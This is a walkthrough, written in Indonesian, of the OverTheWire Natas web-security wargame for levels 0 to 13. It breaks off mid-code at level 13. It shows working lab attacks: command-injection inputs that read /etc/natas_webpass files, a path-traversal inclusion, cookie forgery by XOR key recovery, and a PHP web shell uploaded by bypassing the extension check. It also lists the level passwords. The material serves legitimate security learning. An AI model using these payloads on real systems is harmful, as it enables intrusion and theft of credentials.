

## What is Natas OverTheWire ?

Challenges yang disediakan Natas mengajarkan dasar dasar dari keamanan website dari sisi server.

Setiap level menyimpan password yang dapat digunakan untuk mengakses level selanjutnya. Tujuan kita adalah dengan bagaimanapun caranya mendapatkan password berikutnya dan berpindah ke level yang lebih tinggi dan lebih menantang. Semua password juga disimpan di /etc/natas_webpass/natas(n) dan cuma bisa diakses oleh natas(n-1) dan natas(n+1)

Natas OverTheWire dibuka untuk umum dan dapat di akses melalui link [berikut](https://overthewire.org/wargames/natas/)


# Level 00
[http://natas0.natas.labs.overthewire.org/](http://natas0.natas.labs.overthewire.org/)

natas0:natas0


Diberikan tampilan awal website challenge seperti diatas, kita bisa mendapatkan flag dengan membuka page source

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas0", "pass": "natas0" };</script></head>
<body>
<h1>natas0</h1>
<div id="content">
You can find the password for the next level on this page.

<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
</div>
</body>
</html>
```


# Level 01
[http://natas1.natas.labs.overthewire.org/](http://natas1.natas.labs.overthewire.org/)

natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto


Diberikan tampilan awal website challenge mirip seperti challenge 0, kita bisa menggunakan cara yang sama namun klik kanan di block, jadi kita bisa menggunakan CTRL-U untuk membuka source page

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas1", "pass": "gtVrDuiDfck831PqWsLEZy5gyDz1clto" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">
<h1>natas1</h1>
<div id="content">
You can find the password for the
next level on this page, but rightclicking has been blocked!

<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
</div>
</body>
</html>
```


# Level 02
[http://natas2.natas.labs.overthewire.org/](http://natas2.natas.labs.overthewire.org/)

natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi


Seperti challenge sebelumnya kita akan melihat source code page nya

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas2", "pass": "ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi" };</script></head>
<body>
<h1>natas2</h1>
<div id="content">
There is nothing on this page

</div>
</body></html>
```

Kita bisa melihat ada img src tag ke files/pixel.png, mari kita cek ada apa sebenarnya di directory files.


Ternyata kita bisa melihat directory dan files didalamnya, hal ini terjadi karena misconfiguration pada htaccess yang tidak menonaktifkan Indexes.

Membuka users.txt kita akan mendapatkan flag untuk challenge selanjutnya

```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```


# Level 03
[http://natas3.natas.labs.overthewire.org/](http://natas3.natas.labs.overthewire.org/)

natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14


Challenge kali ini memiliki tampilan sama persis dengan challenge sebelumnya, namun ada hint keras di page source nya

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas3", "pass": "sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14" };</script></head>
<body>
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>
```

"Not even Google will find it this time..." Mari kita coba membuka robots.txt karena bagian Disallow di robots.txt berarti bot crawler google tidak bisa melakukan crawling di page yang ditentukan


Kita bisa membuka users.txt dan mendapatkan password level selanjutnya

```
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```


# Level 04
[http://natas4.natas.labs.overthewire.org/](http://natas4.natas.labs.overthewire.org/)

natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ


Menurut petunjuk diatas kita perlu menambahkan HTTP Header "Referer" sesuai dengan yang ditentukan oleh challenge ini


Mari kita coba cek network tab di browser, bisa dibuka dengan F12
Saya menggunakan firefox untuk mengedit header HTTP request, dan menambahkan "Referer" ketika di send lagi kita akan mendapatkan flag untuk level selanjutnya. Ada banyak cara untuk mengedit HTTP Header tadi, seperti menggunakan proxy Burpsuite dll.


Berhasil mendapatkan flag level selanjutnya


# Level 05
[http://natas5.natas.labs.overthewire.org/](http://natas5.natas.labs.overthewire.org/)

natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq


Pada umumnya, website bisa menentukan identitas kita dengan menggunakan cookie session id. Tidak berbeda pada challenge kali ini kita ditunjukkan cookie bernama "loggedin" dengan value 0, kita bisa mengubahnya menjadi 1 atau True


Dengan ini kita bisa lanjut ke level selanjutnya


# Level 06
[http://natas6.natas.labs.overthewire.org/](http://natas6.natas.labs.overthewire.org/)

natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1


Terdapat sebuah field untuk memasukkan input dan link untuk menuju source codenya di http://natas6.natas.labs.overthewire.org/index-source.html

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">
 
<?
 
include "includes/secret.inc";
 
    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
 
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>
 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Ditengah terdapat sebuah code php yang akan saya jelaskan, pertama codenya melakukan include sebuah file di folder includes bernama secret.inc , kemudian melakukan pengecekan jika input sudah diterima maka akan dilakukan pengecekan lagi.

Jika input yang kita masukkan sama dengan secret yang dimaksud, maka kita akan mendapatkan password untuk natas7. Pertama penulis berpikir untuk melakukan bruteforce tetapi untuk berjaga jaga penulis melakukan beberapa pengecekan terlebih dahulu. Pertama mari kita mencoba masuk ke includes/secret.inc

Penulis membuat sebuah script python simpel

```
#!/usr/bin/env python3
import requests
import re
 
user = "natas6"
pw = "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
 
url = "http://natas6.natas.labs.overthewire.org/"
 
session = requests.Session()
 
response = session.post(url+"includes/secret.inc" , auth = (user,pw))
 
output = response.text
print(output)
```

Menjalankan script ini akan menghasilkan output berupa

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Baik kita sudah mendapat secretnya mari kita coba masukkan kedalam kolom input

```
#!/usr/bin/env python3
import requests
import re
 
user = "natas6"
pw = "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
 
url = "http://natas6.natas.labs.overthewire.org/"
 
session = requests.Session()
 
response = session.post(url, data = {'secret':'FOEIUWGHFEEUHOFUOIU', 'submit':'submit'},auth = (user,pw))
 
output = response.text
print(output)
```

Menjalankan script ini akan mendapatkan kita :

Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9


# Level 07
[http://natas7.natas.labs.overthewire.org/](http://natas7.natas.labs.overthewire.org/)

natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9


Pertama penulis mengecek source code terdapat sebuah comment yang berbunyi

hint: password for webuser natas8 is in /etc/natas_webpass/natas8

Ketika kita menekan tombol Home maka url akan berubah menjadi

- http://natas7.natas.labs.overthewire.org/index.php?page=home

Ketika kita menekan tombol about maka url akan berubah menjadi

- http://natas7.natas.labs.overthewire.org/index.php?page=about

Maka penulis berpikir ini adalah sebuah Local File Inclusion, dan mencoba mengganti url nya menjadi

- http://natas7.natas.labs.overthewire.org/index.php?page=../etc/natas_webpass/natas8


Maka untuk mendapatkan password untuk natas8 kita dapat mengakses ../../../../../etc/natas_webpass/natas8 karena kita harus keluar 5 directory terlebih dahulu untuk sampai ke directory /etc


# Level 08
[http://natas8.natas.labs.overthewire.org/](http://natas8.natas.labs.overthewire.org/)

natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe


```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas8", "pass": "<censored>" };</script></head>
<body>
<h1>natas8</h1>
<div id="content">
 
<?
 
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
 
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
 
if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
 
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>
 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Ditengah terdapat php code lagi yang menuliskan bahwa terdapat sebuah variabel encodedSecret yang berisi string 3d3d516343746d4d6d6c315669563362

Dibawahnya terdapat sebuah function untuk melakukan encoding terhadap input yang kita berikan nantinya. Pertama secret yang kita berikan akan di encode base64 yang dimana hasilnya akan di reverse string baru di ubah dengan bin2hex yang merupakan sebuah fungsi di php.

Maka untuk melakukan decodingnya, pertama-tama kita harus mengembalikan encoding bin2hex tadi. Ternyata ada function php yang bertugas mengembalikan bin2hex, yaitu hex2bin (ya sangat kreatif).

Mari kita coba dengan menulisnya di php

```
<?php
echo base64_decode(strrev((hex2bin("3d3d516343746d4d6d6c315669563362"))));
?>
```

Setelah memasukkan secret oubWYf2kBq kita akan mendapatkan akses ke level selanjutnya


# Level 09
[http://natas9.natas.labs.overthewire.org/](http://natas9.natas.labs.overthewire.org/)

natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl


Pertama diberikan sebuah tampilan

Memasukkan sebuah kata, kita akan mendapatkan balasan berupa



Sekilas terlihat seperti terjadi sebuah mekanisme search dari sebuah wordlist berdasarkan regex yang dimasukkan. Mari kita cek source codenya

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "<censored>" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>
 
 
Output:
<pre>
<?
$key = "";
 
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
 
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Terdapat sebuah code PHP untuk melakukan grep, dan passthru dipercayakan untuk melakukan grep. Passthru akan melakukan eksekusi terhadap code yang kita masukkan kedalam, dan mereflect kan nya balik ke halam website. Mari kita gunakan untuk melancarkan exploit kita

Berdasarkan referensi dari halaman utama natas, setiap dari password natas akan disimpan di dalam directory /etc/natas_webpass/natas(n)

Mari kita mengeluarkan isi dari directory /etc/natas_webpass/natas10 dengan input

```
;cat /etc/natas_webpass/natas10
```

Sehingga code diatas menjadi passthru(“grep -i ;cat /etc/natas_webpass/natas10 dictionary.txt”);

Atau bisa juga menggunakan

```
;cat /etc/natas_webpass/natas10;)#
```

Agar strings dari dictionary tidak keluar lagi karena sudah kita comment


# Level 10
[http://natas10.natas.labs.overthewire.org/](http://natas10.natas.labs.overthewire.org/)

natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

Pertama diberikan sebuah tampilan


Memasukkan sebuah kata, kita akan mendapatkan balasan berupa


Sekilas mekanisme yang terjadi masih sama, namun mari kita lihat kedalam source code nya

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "<censored>" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">
 
For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>
 
 
Output:
<pre>
<?
$key = "";
 
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
 
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Source code mirip dengan natas9, masih menggunakan passthru dan grep yang sama. Namun kali ini input kita akan di filter terlebih dahulu sehingga kita tidak bisa memasukkan karakter seperti [ ; | & ]

Sehingga kita tidak bisa menggunakan teknik yang sama seperti natas9 dimana kita hanya melakukan cat terhadap natas webpass.

Pada challenge kali ini kita akan melakukannya dengan cara berpikir lebih simpel (ya betul, challenge lebih sulit diselesaikan dengan cara yang lebih simpel)

Kita akan memasukkan input berupa

```
. /etc/natas_webpass/natas11
```

Sehingga code diatas akan menjadi passthru(“grep -i . /etc/natas_webpass/natas11 # dictionary.txt”);

Kita akan melakukan regex, character apa saja, dari natas webpass 11, yang artinya kita mengeluarkan apa saja yang ada di directory tersebut (serupa dengan cat)


# Natas 11
[http://natas11.natas.labs.overthewire.org/](http://natas11.natas.labs.overthewire.org/)

natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK


Pertama kita diberikan sebuah tampilan

Kelihatannya kita bisa mengubah warna background dengan memasukkan kode warna di kolom input seperti


Baik mari kita langsung cek source codenya

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas11", "pass": "<censored>" };</script></head>
<?
 
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
 
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
 
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
 
    return $outText;
}
 
function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}
 
function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}
 
$data = loadData($defaultdata);
 
if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}
 
saveData($data);
 
 
 
?>
 
<h1>natas11</h1>
<div id="content">
<body style="background: <?=$data['bgcolor']?>;">
Cookies are protected with XOR encryption<br/><br/>
 
<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}
 
?>
 
<form>
Background color: <input name=bgcolor value="<?=$data['bgcolor']?>">
<input type=submit value="Set color">
</form>
 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Mari kita perhatikan bagian bagian yang mengandung code php saja, nampaknya kita bisa mendapatkan password untuk natas12 jika kita berhasil mengganti data “showpassword” menjadi “yes” . Namun untuk menggantinya kita perlu mengetahui cara kerja pembuatan cookienya terlebih dahulu.

Diberikan sebuah data default yang akan digunakan di pembuatan cookie yaitu array( “showpassword”=>”no”, “bgcolor”=>”#ffffff”)

Kemudian pada fungsi xor encrypt, datadefault tersebut akan digunakan dalam proses xor sebagai string input yang akan di xor dengan sebuah key yang di censor dan di iterasi per charnya untuk membuat sebuah text baru untuk digunakan di function lain.

Jika kita perhatikan baik baik pada code php ini

```
function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}
```

Cara untuk melakukan save data dalam pembuatan cookie yang saat ini kita gunakan adalah dengan pertama-tama memasukkan input kedalam function json_encode baru di xor_encrypt dan hasil dari xor encrypt akan di encode dengan base64 baru kemudian dijadikan cookie yang saat ini kita dapatkan di web browser kita

Cookie yang sudah di set saat ini adalah ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D (dengan catatan bahwa %3D adalah url encoding dari ‘=’

Hal pertama yang kita perlukan adalah mencari isi dari variable key nya. Bagaimana caranya?

Perlu diketahui, bahwa dalam proses XOR,

A XOR B = C

A XOR C = B

Jadi kita bisa menggunakan formula diatas untuk melakukan proses seperti

(Cookie kita saat ini) XOR (default data) = (key)

Mari kita gunakan code diatas untuk memutarbalikkan proses XOR nya

```
<?php
$original = base64_decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=");
 
 
function xor_encrypt($in) {
    $key = $in;
    $text = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
    $outText = '';
 
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
 
    return $outText;
}
 
print xor_encrypt($original);
```

Hasilnya merupakan sebuah string yang berulang-ulang


Setelah pengujian, penulis mendapati ternyata string tersebut bukan merupakan keynya, ternyata keynya merupakan qw8J yang berulang-ulang.

Maka pada saat ini, penulis sudah mendapatkan data yang cukup untuk memutarbalikkan proses enkripsi cookie dan mengganti data showpassword menjadi “yes”

Kita akan menggunakan

Key : qw8J

Text : array( “showpassword”=>”yes”, “bgcolor”=>”#ffffff”)

Dan menjadikannya sebuah cookie yang dapat diterima oleh challenge nya dengan menggunakan code php dibawah ini

```
<?php
 
function xor_encrypt($in) {
    $key = $in;
    $text = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"));
    $outText = '';
 
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
 
    return $outText;
}
 
print base64_encode(xor_encrypt('qw8J'));
?>
```


Didapatkan cookie yang akan kita gunakan yaitu ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

Setelah mengganti cookie dan me refresh page nya kita berhasil mendapatkan password untuk natas12


# Level 12
[http://natas12.natas.labs.overthewire.org/](http://natas12.natas.labs.overthewire.org/)

natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3


Pertama diberikan sebuah tampilan

Nampaknya kita bisa melakukan upload sebuah file JPEG yang maksimum hanya berukuran 1KB

Penulis langsung berpikir ini adalah challenge mendapatkan shell dengan unrestricted file upload, tetapi untuk lebih jelasnya mari kita membuka source code yang diberikan

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "<censored>" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
<? 
 
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    
 
    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }
 
    return $string;
}
 
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
 
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
 
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
 
 
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
 
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Mari kita telaah alur script php yang disediakan. Pertama kita akan melakukan upload file secara post yang akan dilakukan pengecekan jika ukurannya lebih dari 1kb maka akan ada peringatan file too big, jika tidak maka file akan diterima.

Terdapat sebuah variabel target_path yang menyimpan function bercabang makeRandomPathFromFilename dan makeRandomPath

Function makeRandomPathFromFilename akan melakukan pengecekan kepada extension dari file yang di upload yang defaultnya adalah jpeg dan passing value dir dan ext ke makeRandomPath

Function makeRandomPath bertugas mereturn sebuah value tempat file akan disimpan di directory upload

upload/(random string berjumlah sepuluh character dari list alphanumeric).jpeg

Untuk menyelesaikan challenge ini kita bisa melakukan unrestricted file upload, secara singkatnya kita akan mengupload file .php yang berisi command yang kita ingin lakukan saat kita mengakses dan load file php tersebut.

Kita akan menginginkan password natas13 sehingga kita bisa membuat sebuah file php yang berisikan

```
PHP
<?php
$pass = `cat /etc/natas_webpass/natas13`;
echo $pass;
?>
```

Tetapi saat kita melakukan file upload, nama file kita akan diganti menjadi random string dan file extension akan menjadi jpeg secara default. Mari kita gunakan burpsuite untuk meng intercept file yang akan dikirim dan setelah melewati verifikasi front end, maka file dapat masuk tanpa gangguan lebih lanjut.


Upload file


```
hq8j7gj555.jpg (NAMA FILE)
-----------------------------217261477111538
Content-Disposition: form-data; name="uploadedfile"; filename="shell.php"
Content-Type: application/octet-stream
 
 
(ISI FILE)
<?php
$pass = `cat /etc/natas_webpass/natas13`;
echo $pass;
?>
```

Mari kita ganti lagi nama filenya menjadi shell.php dan upload

Terdapat sebuah link menuju file kita tadi, saat diakses maka command cat akan ter execute dan password untuk level selanjutnya didapatkan


# Level 13
[http://natas13.natas.labs.overthewire.org/](http://natas13.natas.labs.overthewire.org/)

natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY


Nampaknya web ini hanya menerima file JPEG dan dapat diketahui ada mekanisme pertahanan untuk memastikan file yang di upload merupakan sebuah image file.

Mari kita lihat source code yang disediakan

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>
 
<? 
 
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    
 
    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }
 
    return $string;
}
 
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
 
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
 
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
